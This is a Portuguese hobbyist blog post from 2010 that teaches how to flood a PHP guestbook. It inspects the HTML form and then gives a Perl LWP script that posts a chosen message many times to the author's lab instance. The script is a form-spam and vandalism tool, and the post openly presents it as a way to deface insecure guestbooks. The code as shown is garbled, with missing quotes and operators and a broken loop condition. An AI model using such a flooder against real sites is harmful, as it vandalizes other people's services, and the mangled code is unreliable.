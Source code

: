 ```yaml
---
layout: default
title: Floodando mural com Perl
date: 2010-11-29 15:32
author: brennords
comments: true
categories: [Hacking]
---
```


Porra, cada vez mais que eu uso perl, mas vejo o quanto de coisas que dá pra se fazer usando o mesmo, final de semana passado, começei a ver o que daria pra fazer com sites usando perl.

Usando a <a href="http://search.cpan.org/~gaas/libwww-perl-5.837/lib/LWP/UserAgent.pm" target="_blank">LWP::UserAgent</a>, o céu é o limite :P

Vou exemplificar aqui nesse post como esquematizar o ataque, e como usar o código, resolvi fazer isso depois de ver que matérias sobre Perl em português não são muito comuns ...

Basta saber o básico de HTML, saber também como as requisições funcionam, e um pouco de Perl pra entender o post.

Vou usar esse código aqui para simular um ataque: <a href="http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt" target="_blank">http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt</a>

É um mural de recados escrito em PHP, e que não precisa de um banco de dados, os recados são salvos num arquivo txt, o código é simples, vulnerável a XSS, mas isso não vem ao caso, ele só vai nos servir de exemplo, pra mostrar como a coisa funciona.

Primeiramente você deve colocar o mural hospedado em algum lugar, você pode instalar um servidor web com o PHP fácil no seu próprio computador, existem pacotes como o <a href="http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt" target="_blank">XAMPP</a>, ou uma maneira mais fácil é você criar uma conta em algum desses servidores de hospedagem gratuitos com suporte a PHP que existem por ai a fora, sinceramente gosto muito do <a href="http://www.freewebhostingarea.com/" target="_blank">http://www.freewebhostingarea.com/</a>.

Caso queira, você pode usar o meu lab pessoal: <a href="http://ripper.eu5.org/labs/uploads/mural/index.php" target="_blank">http://ripper.eu5.org/labs/uploads/mural/index.php</a>, agora não garanto que esteja on-line pra sempre.

Ok, agora temos o mural funcionando, recados podem ser mandados para o site, basta pôr um nome, e-mail e a mensagem desejada...

Mas e se quisermos vandalizar o mural inseguro? Existem várias maneiras, mas vou te dizer como fazer isso com o perl.

Analizando o código, achei a seguinte linha interessante:
<p id="line1">FORM name=email2 onsubmit="return checkemail()" action=enviar_msg.php?a=confirma method=post
São os paramêtros do form que envia a mensagem para o mural de recados, vou destacar logo o que importa, o paramêtro "action" e o "method", nos diz que usando o método POST o form envia os dados para a página "enviar_msg.php?a=confirma".

Sim, mas e dai?

Com o perl podemos enviar requisições para o servidor, é o que vamos fazer.

Analisando ainda mais o código, observa-se que existem três inputs no form:

INPUT id=nome

INPUT id=email

INPUT id=message

O que nos importa são as ID's, é o que vai se usar no código perl para enviar o post.

Ok, agora sabemos que o form envia para a página enviar_msg.php junto com o paramêtro a=confirma, o nome, email e message.

Agora é que entra o perl, não vou explicar muito porque não tô afim, mas se você provavelmente entendeu até aqui, vai entender o código:

```

#!/usr/bin/perl

use LWP::UserAgent;

print Floodando com perl\n;

print Coloque sua mensagem: ;
my $msg = STDIN; chomp $msg;

print \nColoque o numero de vezes que a msg sera enviada: ;
my $count = STDIN; chomp $count;
my $begin = 1;

while ($begin = $count) {

$U=http://ripper.eu5.org/labs/uploads/mural/enviar_msg.php?a=confirma;
$lwp=LWP::UserAgent-new;
$res=$lwp  -post($U,[
'nome'     ='Brenn0',
'email'   ='whatever@gmail.com',
'mensagem' =$msg . $begin,
]);

$begin++;
print Mensagem numero  . $begin .  enviada...\n;
}

print \nFlood Completo!\n;
print Coded By Brenn0 (:;
exit 0;

# http://brenn0.wordpress.com

```

Básico, 32 linhas de código contando as que ficaram em branco, para um mal programador como eu, até que ficou organizadinho.

Atente para a parte do código onde se inicia o While e até onde ele termina, é ali que mora a parte legal, é onde se monta e se envia a requisição, a graça disso não é sair flodando todo e qualquer mural que se achar por ai, mas o poder que o perl dá em fazer algumas coisas, como automatizar tarefas repetitivas, claro que poderiamos ter feito isso de outras maneiras, como usando a extensão Imacs do firefox, mas nem sempre o mais fácil é mais legal :P

Eeee, fim de post, depois de um longo periodo de tempo sem nada, pensando bem não faz lá muito tempo, o mês é que foi longo, o cefet continua tentando me matar, e eu também continuo tentando o mesmo ...

Enfim, sono, preguiça e estudos, alcool, ociosidade, insanidade, são uma boa combinação (:
